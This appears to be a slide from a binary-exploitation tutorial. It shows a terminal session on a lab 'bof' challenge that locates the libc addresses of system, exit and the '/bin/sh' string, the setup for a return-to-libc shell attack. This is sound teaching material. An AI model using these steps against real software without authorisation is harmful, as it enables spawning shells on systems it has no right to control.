

# Find “/bin/sh” An alternative method
user@ubuntu:~/Challenges/bof$ ldd bof
        linux-gate.so.1 =>  (0xf7ffd000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e2a000)
        /lib/ld-linux.so.2 (0x56555000)
user@ubuntu:~/Challenges/bof$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   ...
  1457: 0003ad80    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
user@ubuntu:~/Challenges/bof$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   ...
   141: 0002e9b0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   ...
user@ubuntu:~/Challenges/bof$ strings -tx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba3f /bin/sh
user@ubuntu:~/Challenges/bof$ gdb -q
(gdb) p/x 0xf7e05000 + 0x0003ad80
$1 = 0xf7e3fd80
(gdb) p/x 0xf7e05000 + 0x0002e9b0
$2 = 0xf7e339b0
(gdb) p/x 0xf7e05000 + 0x15ba3f
$3 = 0xf7f60a3f

WTF? There is a "\n" in the address of "/bin/sh"